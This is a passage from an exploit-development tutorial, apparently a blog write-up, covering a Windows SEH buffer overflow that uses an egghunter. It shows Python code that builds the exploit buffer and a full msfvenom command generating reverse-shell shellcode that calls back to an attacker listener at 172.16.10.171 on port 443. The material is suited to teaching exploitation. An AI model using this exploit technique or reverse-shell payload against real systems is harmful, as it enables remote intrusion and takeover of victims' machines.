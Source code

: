 We will also define our `tag` inside a variable **<u>TWICE</u>** so that the Egghunter does not find itself when executing and searching memory.



```python
egg = 'MOCHMOCH'
```



I will also take this time to replace the `junk` variable with

```python
buffer += egghunter
junk = "D"*(5000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space
```



This will allow us to add the Egghunter shell code straight after **SEH** followed by a bunch of D's to fill the remaining space just to be careful. 



Let's now generate some shell code, make some last adjustments to the overall exploit and give it a try. 



### Jumping to Egghunter



Now just to reiterate what are aiming to do here is over run **SEH**, perform a `POP POP RET` sequence which in turns pushes the value of **nSEH** into the **EIP Register** - In this case we would like to either place the address of our Egghunter over **nSEH** or some form of instructions that will jump us down into our Egghunter shellcode, once again if we check out the stack we can see we don't have far too travel.









### Generating Shellcode & Final Exploit



As always I will be using MSFVenom here to generate some shellcode as we are not really fighting against advanced anti-virus or anything so no need to be fancy, let's just simply use the below code.



```bash
m0chan@kali:/> msfvenom -p windows/shell_reverse_tcp LHOST=172.16.10.171 LPORT=443 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00"
```





Great shell code is now generated we simply just pop this into our final exploit.
